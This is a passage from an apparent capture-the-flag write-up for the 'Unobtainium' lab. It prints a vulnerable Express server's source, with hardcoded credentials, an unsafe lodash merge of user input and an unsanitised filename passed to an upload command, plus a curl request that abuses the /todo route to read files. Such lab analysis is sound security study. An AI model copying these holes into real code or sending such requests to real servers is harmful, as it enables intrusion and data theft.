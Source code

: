     {"ok":true,"content":"var root = require(\"google-cloudstorage-commands\");\nconst express = require('express');\nconst { exec } = require(\"child_process\");     \nconst bodyParser = require('body-parser');     \nconst _ = require('lodash');                                                                  \nconst app = express();\nvar fs = require('fs');\n                                                                                              \nconst users = [                                                                               \n  {name: 'felamos', password: 'Winter2021'},\n  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},      \n];\n\nlet messages = [];                             \nlet lastId = 1;                                \n                                                                                              \nfunction findUser(auth) {                                                                     \n  return users.find((u) =>                                                                    \n    u.name === auth.name &&                                                                   \n    u.password === auth.password);                                                            \n}                                    \n                                               \napp.use(bodyParser.json());                                                                   \n                                               \napp.get('/', (req, res) => {                   \n  res.send(messages);                                                                         \n});                                                                                           \n                                                                                              \napp.put('/', (req, res) => {   \n  const user = findUser(req.body.auth || {});                                                 \n                                               \n  if (!user) {                                 \n    res.status(403).send({ok: false, error: 'Access denied'});                                \n    return;\n  }\n\n  const message = {\n    icon: '__',\n  };\n\n  _.merge(message, req.body.message, {\n    id: lastId++,\n    timestamp: Date.now(),\n    userName: user.name,\n  });\n\n  messages.push(message);\n  res.send({ok: true});\n});\n\napp.delete('/', (req, res) => {\n  const user = findUser(req.body.auth || {});\n\n  if (!user || !user.canDelete) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n  messages = messages.filter((m) => m.id !== req.body.messageId);\n  res.send({ok: true});\n});\napp.post('/upload', (req, res) => {\n  const user = findUser(req.body.auth || {});\n  if (!user || !user.canUpload) {\n    res.status(403).send({ok: false, error: 'Access denied'});\n    return;\n  }\n\n\n  filename = req.body.filename;\n  root.upload(\"./\",filename, true);\n  res.send({ok: true, Uploaded_File: filename});\n});\n\napp.post('/todo', (req, res) => {\n\tconst user = findUser(req.body.auth || {});\n\tif (!user) {\n\t\tres.status(403).send({ok: false, error: 'Access denied'});\n\t\treturn;\n\t}\n\n\tfilename = req.body.filename;\n        testFolder = \"/usr/src/app\";\n        fs.readdirSync(testFolder).forEach(file => {\n                if (file.indexOf(filename) > -1) {\n                        var buffer = fs.readFileSync(filename).toString();\n                        res.send({ok: true, content: buffer});\n                }\n        });\n});\n\napp.listen(3000);\nconsole.log('Listening on port 3000...');\n"}



The formatting is a mess, but I'll use `jq` to pull the string in
`content` and print it raw (`-r`):



    oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content'
    var root = require("google-cloudstorage-commands");
    const express = require('express');                              
    const { exec } = require("child_process");     
    const bodyParser = require('body-parser')
    ...[snip]...
    oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}' | jq -r '.content' > index.js
